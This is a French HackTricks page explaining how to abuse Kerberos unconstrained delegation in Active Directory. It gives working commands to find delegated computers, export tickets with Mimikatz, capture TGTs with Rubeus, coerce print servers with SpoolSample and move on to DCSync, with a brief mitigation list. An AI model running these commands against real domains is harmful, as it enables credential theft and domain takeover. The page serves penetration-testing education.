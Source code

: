 # Délégation non contrainte

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

## Délégation non contrainte

C'est une fonctionnalité qu'un administrateur de domaine peut définir pour n'importe quel **ordinateur** à l'intérieur du domaine. Ensuite, chaque fois qu'un **utilisateur se connecte** à l'ordinateur, une **copie du TGT** de cet utilisateur va être **envoyée à l'intérieur du TGS** fourni par le DC **et sauvegardée en mémoire dans LSASS**. Donc, si vous avez des privilèges d'administrateur sur la machine, vous pourrez **extraire les tickets et usurper les utilisateurs** sur n'importe quelle machine.

Ainsi, si un administrateur de domaine se connecte à un ordinateur avec la fonctionnalité "Délégation non contrainte" activée, et que vous avez des privilèges d'administrateur local sur cette machine, vous pourrez extraire le ticket et usurper l'administrateur de domaine n'importe où (privesc de domaine).

Vous pouvez **trouver des objets ordinateur avec cet attribut** en vérifiant si l'attribut [userAccountControl](https://msdn.microsoft.com/en-us/library/ms680832\(v=vs.85\).aspx) contient [ADS\_UF\_TRUSTED\_FOR\_DELEGATION](https://msdn.microsoft.com/en-us/library/aa772300\(v=vs.85\).aspx). Vous pouvez le faire avec un filtre LDAP de ‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’, ce que fait powerview :

<pre class="language-bash"><code class="lang-bash"># Lister les ordinateurs non contraints
## Powerview
Get-NetComputer -Unconstrained # Les DC apparaissent toujours mais ne sont pas utiles pour privesc
<strong>## ADSearch
</strong>ADSearch.exe --search "(&#x26;(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
<strong># Exporter les tickets avec Mimikatz
</strong>privilege::debug
sekurlsa::tickets /export #Méthode recommandée
kerberos::list /export #Autre méthode

# Surveiller les connexions et exporter de nouveaux tickets
.\Rubeus.exe monitor /targetuser:&#x3C;username> /interval:10 #Vérifier toutes les 10s pour de nouveaux TGTs</code></pre>

Chargez le ticket de l'administrateur (ou de l'utilisateur victime) en mémoire avec **Mimikatz** ou **Rubeus pour un** [**Pass the Ticket**](pass-the-ticket.md)**.**\
Plus d'infos : [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)\
[**Plus d'informations sur la délégation non contrainte sur ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation)

### **Forcer l'authentification**

Si un attaquant est capable de **compromettre un ordinateur autorisé pour "Délégation non contrainte"**, il pourrait **tromper** un **serveur d'impression** pour **se connecter automatiquement** contre lui **en sauvegardant un TGT** dans la mémoire du serveur.\
Ensuite, l'attaquant pourrait effectuer une **attaque Pass the Ticket pour usurper** le compte d'ordinateur du serveur d'impression.

Pour faire connecter un serveur d'impression contre n'importe quelle machine, vous pouvez utiliser [**SpoolSample**](https://github.com/leechristensen/SpoolSample) :
```bash
.\SpoolSample.exe <printmachine> <unconstrinedmachine>
```
Si le TGT provient d'un contrôleur de domaine, vous pourriez effectuer une [**attaque DCSync**](acl-persistence-abuse/#dcsync) et obtenir tous les hachages du DC.\
[**Plus d'infos sur cette attaque dans ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation)

**Voici d'autres façons d'essayer de forcer une authentification :**

{% content-ref url="printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](printers-spooler-service-abuse.md)
{% endcontent-ref %}

### Atténuation

* Limiter les connexions DA/Admin à des services spécifiques
* Définir "Le compte est sensible et ne peut pas être délégué" pour les comptes privilégiés.

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Vérifiez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
